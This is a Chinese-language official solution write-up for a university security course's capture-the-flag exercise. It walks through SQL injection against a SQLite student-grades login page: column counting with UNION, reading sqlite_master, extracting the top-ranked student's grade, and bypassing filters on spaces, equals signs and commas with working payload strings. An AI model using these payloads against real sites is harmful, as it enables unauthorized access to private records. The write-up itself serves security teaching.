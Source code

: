 # 信安实践II级第一次官方题解

## PB19061294 武汉

## ⚠某邪恶的卷王计划——图谋不轨I

直接按照要求将学号和 token 正确输入，然后账号密码默认都是自己的学号，拿到第一个 flag

## ⚠某邪恶的卷王计划——图谋不轨II

其实这个注入只要能找到，后面的就几乎一样了。所以这里说的详细一些：

首先判断注入点类型，如果你按照数字型的思路去试的话，会一直报账号密码不正确的错误，说明我们没有构造出注入。考虑是字符串型的注入，可以测试出后端闭合使用的是单引号(测试方式是`1' and 1=2;--`,发现成功回显。)

这时我们就可以思考一下原来的 sql 语句可能是什么样子了。

```sqlite
select a,b,...,x from xxx where uid='+你输入的学号+' and pswd='+你输入的密码+';
```

这个 sql 语句里面 a,b,..x 和 xxx 表明我们不知道表名和列名，需要一会儿去查 sqlite_master 表。a,b...,x的列数也未知，需要我们试出来。

我们发现只能回显一行，所以我们构造的联合查询语句要使得前面的语句回显0条，后面的语句回显一条。于是可以输入`1' and 1=2 union select 1,2,3 ;--` 测试列数，发现报错(因为union需要前后列数相等)，于是我们改成4列，即`1' and 1=2 union select 1,2,3,4 ;--` 发现成功进入，因此这说明我们前面 a,b...,x 的列数是4。接下来我们可以查 sqlite_master 表看看这个数据库里都有哪些表。`1' and 1=2 union select 1,2,count(*),sql from sqlite_master ;--`。我们发现只有一个表，并且它创立时的 sql 语句是 `CREATE TABLE student (UID TEXT NOT NULL, PASSWORD TEXT NOT NULL, LASTGPA TEXT NOT NULL, GRADE TEXT NOT NULL, RANK INT NOT NULL, SINGLE TEXT NOT NULL)`我们要找自己的`single`字段，注意是**自己**的，这个数据库里，除了自己的数据别人的都是'this is single'之类无意义的数据，只有自己的才是 flag 。因此要在 payload 里加上一个 where 限定，最后结果如下:`1' and 1=2 union select 1,2,3,single from student where uid="你的学号" ;--`

## ⚠某邪恶的卷王计划——图谋不轨III

第三问和第二问注入点是一样的，我们只需要考虑如何获取第一名的成绩就行了。依然是一个 where 限定，我这里直接给结果：`1' and 1=2 union select 1,2,3,grade from student where rank=1 ;--`

## ⚠某邪恶的卷王计划——力挽狂澜I

后三道题目加入了过滤，第四道的过滤是空格(可以试出来，会报hacker)，这样我们需要把空格修改为`/**/`进行绕过。另外后三道里面除了 student 表之外还有一个 log 表(查询所有表的方法已如上述)，我们需要查到 log 表里我们自己的 operate 内容，除了过滤之外应该和上面的区别不大。

payload : `1'/**/and/**/1=2/**/union/**/select/**/1,2,3,operate/**/from/**/log/**/where/**/uid="你的学号";--`

## ⚠某邪恶的卷王计划——力挽狂澜II

倒数第二道除了过滤空格之外又过滤了等号，这个其实很容易绕过，我们可以使用不等号(`<>`)、like、或者`in`等方式解决

payload : `1'/**/and/**/0/**/union/**/select/**/1,2,3,operate/**/from/**/log/**/where/**/uid/**/like/**/"你的学号";--`

## ⚠某邪恶的卷王计划——力挽狂澜III

第三问的过滤就稍微有一点难了，过滤了逗号，我们需要用 join 连接

payload:`1'/**/and/**/0/**/union/**/select/**/*/**/from/**/(select/**/operate/**/from/**/log/**/where/**/uid/**/like/**/"你的学号")/**/join/**/(select/**/1)/**/join/**/(select/**/1)/**/join/**/(select/**/1);--`

## 小结

总体来看我觉得大家做的都还是很不错的b（￣▽￣）d　，题目出来之后有人试做说太难了，我觉得后面几个人出的比我的要难（可能是别的方向我不熟吧-.-
